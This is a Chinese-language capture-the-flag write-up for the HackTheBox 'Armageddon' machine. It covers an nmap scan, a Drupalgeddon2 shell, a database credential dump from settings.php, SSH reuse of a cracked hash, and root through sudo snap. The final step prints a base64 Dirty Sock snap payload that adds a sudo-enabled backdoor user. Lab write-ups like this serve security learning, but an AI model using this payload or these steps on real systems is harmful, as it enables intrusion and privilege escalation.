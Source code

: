 # HackTheBox-Armageddon

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 100000 -A -sS   
  
Host is up (0.18s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)  
| ssh-hostkey:   
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)  
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)  
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)  
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)  
|_http-title: Welcome to  Armageddon |  Armageddon  
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16  
| http-robots.txt: 36 disallowed entries (15 shown)  
| /includes/ /misc/ /modules/ /profiles/ /scripts/   
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt   
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt   
|_/LICENSE.txt /MAINTAINERS.txt  
|_http-generator: Drupal 7 (http://drupal.org)  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).  
TCP/IP fingerprint:  
OS:SCAN(V=7.94%E=4%D=4/15%OT=22%CT=1%CU=37686%PV=Y%DS=2%DC=T%G=Y%TM=661CA4C  
OS:3%P=x86_64-apple-darwin21.6.0)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)SE  
OS:Q(SP=108%GCD=1%ISR=10B%TI=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=I  
OS:%II=I%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11  
OS:NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=71  
OS:20%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4  
OS:0%S=O%A=S&#43;%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O  
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40  
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q  
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y  
OS:%DFI=N%T=40%CD=S)  
  
Network Distance: 2 hops  
  
TRACEROUTE (using port 1723/tcp)  
HOP RTT       ADDRESS  
1   132.89 ms 10.10.16.1  
2   214.85 ms 10.129.48.89  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 29.92 seconds  
```  
存在`22`端口和`80`端口  
`80`端口存在`Web`服务，并且存在很多文件  
其中`/CHANGELOG.txt`存在版本信息  
`Drupal 7.56, 2017-06-21`  
利用`msf`搜索一下  
利用`exploit/unix/webapp/drupal_drupalgeddon2`这个漏洞  
成功获得一个`shell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151210549.png)
但是权限很低  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151213101.png)
无法打开任何`flag`  
目标还开放了一个`22`端口，这里考虑密码复用，连接22端口  
通过`/etc/passwd`得知存在`brucetherealadmin`用户，在配置文件和数据库中找一下  
在`sites/default/settings.php`中存在数据库账号和密码  
```php  
$databases = array (  
  &#39;default&#39; =&gt;   
  array (  
    &#39;default&#39; =&gt;   
    array (  
      &#39;database&#39; =&gt; &#39;drupal&#39;,  
      &#39;username&#39; =&gt; &#39;drupaluser&#39;,  
      &#39;password&#39; =&gt; &#39;CQHEy@9M*m23gBVj&#39;,  
      &#39;host&#39; =&gt; &#39;localhost&#39;,  
      &#39;port&#39; =&gt; &#39;&#39;,  
      &#39;driver&#39; =&gt; &#39;mysql&#39;,  
      &#39;prefix&#39; =&gt; &#39;&#39;,  
    ),  
  ),  
);  
```  
在数据库中找到疑似`SSH`的密码  
```  
mysql -h localhost -u &#34;drupaluser&#34; -pCQHEy@9M*m23gBVj &#34;drupal&#34; -e &#34;select uid,name,pass from users;&#34;  
  
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151440330.png)
利用`cmd5`查出`hash`值，成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151441248.png)
`sudo -l`查看详细权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151442888.png)
可以用root权限运行`snap`命令  
参考文章  
https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html  
生成命令  
```bash  
python2 -c &#39;print&#34;aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA&#43;AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA&#43;PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5&#43;qumvhFkbY5Pr4ba1mk4&#43;lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc&#43;MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw&#34;&#43; &#34;A&#34;*4256 &#43; &#34;==&#34;&#39; | base64 -d &gt; exploit.snap  
```  
运行`sudo /usr/bin/snap install --devmode exploit.snap`  
切换到`dirty_sock`用户，密码同样是`dirty_sock`  
`sudo cat /root/root.txt`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-armageddon/  

